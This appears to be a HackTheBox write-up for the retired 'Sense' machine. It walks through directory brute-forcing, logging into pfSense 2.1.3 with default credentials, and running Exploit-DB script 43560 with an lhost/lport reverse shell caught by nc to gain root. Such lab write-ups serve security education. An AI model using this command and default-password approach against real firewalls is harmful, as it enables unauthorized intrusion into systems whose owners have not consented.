 ```yaml
---
title: Sense Hackthebox Writeup
date: 2020-12-28 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [FreeBSD,pfsense,dirbuster,pfsense 2.1.3]     # TAG names should always be lowercase
image: /assets/img/sense-hackthebox/sense-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Sense:~$


Column | Details
------------ | -------------
Name | Sense
IP | 10.10.10.60
Points | 20
Os | FreeBSD
Difficult | Easy
Creator | [lkys37en](https://www.hackthebox.eu/profile/709)
Out on | 21st October 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* Used `dirbuster` to find the hidden directories, two of them are `changelog.txt` and `system-users.txt`.
* Got `Credentials` to login to the dashboard on `port 80`
* Exploiting the `vulnerable` version of `pfSense 2.1.3`, to get Root.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/sense-hackthebox/nmap-scan-1.png)

From a `quick scan` we came to know that `2 Ports` are open i.e. `80 and 443`. On accessing port 80 we are redirected to `443 page` where we get a `login page` of *pfSense*.

___
![](/assets/img/sense-hackthebox/port-80-2.png)

Using `dirbuster` to find hidden directories. **Wordlist Used**: *directory-list-2.3-medium.txt* and **File Extension**: *php,txt,html*.

___
![](/assets/img/sense-hackthebox/dirbuster-3.png)

We got `two useful directories` which I checked out.

**Accessing**: `https://10.10.10.60:443/changelog.txt`, we can see some messages here.

___
![](/assets/img/sense-hackthebox/changelog-txt-4.png)

**Accessing**: `https://10.10.10.60:443/system-users.txt`, we got some credentials *Username*: `Rohit` and *Password*: `company defaults`. I googled about default credentials for `pfSense` and found it as **pfsense**, Hence the *password* they are talking about is `pfsense`.

___
![](/assets/img/sense-hackthebox/system-users-ticket-5.png)

Loging into the dashboard with the credentials mentioned above.

___
![](/assets/img/sense-hackthebox/pf-sesne-loggedin-8.png)

We got to know the `pfSense` version running which is `2.1.3`. I googled about the version vulnerabilities and found this:

[Exploit found](https://www.exploit-db.com/exploits/43560)

___
![](/assets/img/sense-hackthebox/exploit-db-9.png)

Dowloaded the `exploit` on my machine and ran it. *Make sure you use the username as rohit and not Rohit.*

**Exploit Command**: *python3 43560.py --rhost=10.10.10.60 --lhost=10.10.X.X --lport=1233 --username=rohit --password=pfsense*

Listening on the port specified using `nc`. We got `Root`.

___
![](/assets/img/sense-hackthebox/got-root-10.png)



